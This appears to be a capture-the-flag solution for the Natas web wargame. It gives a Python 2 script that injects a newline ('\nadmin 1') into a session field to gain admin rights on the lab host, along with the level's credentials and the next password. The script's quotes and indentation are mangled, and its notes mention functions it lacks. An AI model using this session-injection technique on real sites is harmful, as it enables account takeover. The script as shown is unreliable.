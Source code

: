 # natas21

```python
import httplib,sys
from base64 import b64encode
from urllib import urlencode

def check(sessid):
httpClient = None
try:
userAndPass = b64encode(b”natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF”).decode(“ascii”)
body=urlencode({‘name’ : ‘whatevername\nadmin 1’})
cookie = ‘PHPSESSID=’+str(sessid)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Content-Type’: ‘application/x-www-form-urlencoded’ , ‘Cookie’ : cookie }
httpClient = httplib.HTTPConnection(‘natas20.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘POST’, ‘/index.php?debug=a’, body=body, headers=headers)
response = httpClient.getresponse()
responseData = response.read()
print responseData
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()

check(‘whateversessid’)
```

Injection: “whatevername\nadmin 1” (web browser might not work!)
Run the program for two times: first time executing mywrite to inject the session, second time executing myread to set admin to 1
Password: IFekPyrQXftziDEsUr3x21sYuahypdgJ
